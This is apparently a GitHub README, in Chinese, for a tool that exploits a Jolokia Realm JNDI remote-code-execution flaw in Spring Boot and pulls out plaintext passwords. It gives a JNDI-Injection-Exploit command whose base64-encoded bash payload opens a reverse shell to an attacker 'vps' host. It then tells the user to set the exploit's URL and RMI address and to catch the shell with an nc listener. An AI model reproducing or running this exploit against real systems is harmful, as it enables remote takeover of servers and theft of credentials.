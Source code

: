 # jolokia_Realm_JNDI_RCE_Check

jolokia Realm JNDI RCE 漏洞检测，并获取明文密码

![image-20230529125021273](\image\img.png)



#### 漏洞复现



```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,base64}|{base64,-d}|{bash,-i}" -A "vps"
```

![image-20230529140945527](D:\job\工具\Spring boot\jolokia-Realm-JNDI-RCE\jolokia_Realm_JNDI_RCE_Check\README.assets\img1.png)



修改 expliot 中的 url 和 rmi 地址

![image-20230529141111901](\image\img2.png)



nc 监听端口

![image-20230529141153629](\image\img3.png)



#### 参考文章

https://github.com/LandGrey/SpringBootVulExploit#0x05jolokia-realm-jndi-rce

https://zhuanlan.zhihu.com/p/369853014

https://r0yanx.com/tools/java_exec_encode/

https://github.com/welk1n/JNDI-Injection-Exploit

